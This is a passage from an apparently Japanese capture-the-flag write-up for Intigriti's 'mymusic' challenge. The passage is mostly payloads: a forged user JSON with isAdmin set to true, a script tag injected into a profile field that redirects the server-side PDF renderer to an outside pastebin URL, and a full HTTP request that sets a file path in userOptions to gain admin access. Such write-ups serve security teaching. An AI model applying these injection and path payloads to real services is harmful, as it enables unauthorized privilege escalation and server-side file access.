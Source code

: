 ```json
{
  "userOptions": {
    "path":"/app/data/aaaaaaaaaaaaaa.json"
  }
}
```

後は、`isAdmin`を持つユーザデータのJSONファイルを作成して、ログイン時にファイル名を指定することでadminになれるはずです。

JSONファイルの内容は、以下のようにします。

```json
{
  "isAdmin": true,
  "username":"test",
  "firstName":"test",
  "lastName":"test",
  "spotifyTrackCode":"test"
}
```

つまり、ユーザのSpotify Track Idに以下のような文字列にした状態で、PDF生成時に`userOptions`を指定すれば良さそうです。  
面倒だったので、pastebinを使いましたが、自サーバに置いた方が良いはずです。

```text
<script>document.location='https://pastebin.com/raw/d2wTmdVh'</script>
```

- PDF生成時のリクエスト

```http
POST /profile/generate-profile-card HTTP/2
Host: mymusic.ctf.intigriti.io
Cookie: login_hash=3517ccd0ca44f9c50e90d7a60cf567114e149173126742565ab5871b0091c378
Content-Length: 73
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="119", "Not?A_Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.159 Safari/537.36
Origin: https://mymusic.ctf.intigriti.io
Content-Type: application/json
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://mymusic.ctf.intigriti.io/profile
Accept-Encoding: gzip, deflate, br
Accept-Language: ja,en-US;q=0.9,en;q=0.8
Priority: u=0, i

{
  "userOptions": {
    "path":"/app/data/aaaaaaaaaaaaaa.json"
  }
}
```
